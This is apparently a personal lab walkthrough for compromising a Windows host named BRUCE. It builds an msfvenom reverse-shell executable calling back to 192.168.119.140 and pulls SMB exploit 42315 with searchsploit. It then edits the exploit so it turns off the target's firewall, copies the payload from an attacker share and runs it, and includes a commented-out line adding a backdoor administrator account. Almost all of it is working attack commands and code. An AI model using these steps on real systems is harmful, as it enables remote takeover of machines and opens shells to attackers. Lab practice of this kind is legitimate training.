

# 10.11.1.75 - BRUCE 

1. Create msfvenom payload exectuable.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.140 LPORT=4545 -f exe > shell.exe
```
2. copy the exploit to your current direcory:
`searchsploit -m 42315'
3. change 42315 exploit code to copy shell code and disable firewall:
```python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	service_exec(conn, r'cmd /c mkdir c:\temp')
	service_exec(conn, r'netsh advfirewall set allprofiles state off')
	service_exec(conn, r'cmd /c copy \\192.168.119.140\share\shell.exe c:\temp\shell.exe')
	service_exec(conn, r'cmd /c c:\temp\shell.exe')
	#service_exec(conn, r'cmd /c net user Wessel W3ss3l! /add && net localgroup administrators Wessel /add')
```
2. To get a shell execute the python exploit script.
`python 42315.py 10.11.1.75`

